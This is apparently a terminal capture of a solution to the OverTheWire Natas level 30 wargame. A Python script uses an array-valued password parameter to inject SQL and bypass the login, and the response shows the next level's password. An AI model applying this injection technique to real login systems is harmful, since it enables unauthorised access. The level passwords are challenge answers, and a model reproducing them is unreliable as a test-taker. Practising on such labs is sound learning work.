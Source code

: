 ```

┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ cat pythonkoodi30.py  
import requests
from requests.auth import HTTPBasicAuth

basicAuth=HTTPBasicAuth('natas30', 'WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH')

u="http://natas30.natas.labs.overthewire.org/index.pl"

params={"username": "natas28", "password": ["'lol' or 1", 4]}
response = requests.post(u, data=params, auth=basicAuth, verify=False)

print(response.text)



┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi30.py      
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
win!<br>here is your result:<br>natas31m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

